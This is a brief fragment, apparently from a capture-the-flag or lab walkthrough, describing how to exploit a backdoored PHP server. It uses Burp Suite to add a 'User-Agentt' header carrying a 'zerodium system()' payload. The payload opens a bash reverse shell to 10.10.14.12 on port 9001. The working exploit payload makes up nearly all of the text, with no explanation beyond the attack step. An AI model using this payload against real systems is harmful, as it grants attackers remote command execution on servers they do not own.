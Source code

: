 
burp suite:
add User-Agentt field to request and inject bash reverse shell into it
~~~
User-Agentt: zerodium system("bash -c 'bash -i >& /dev/tcp/10.10.14.12/9001 0>&1'");
~~~


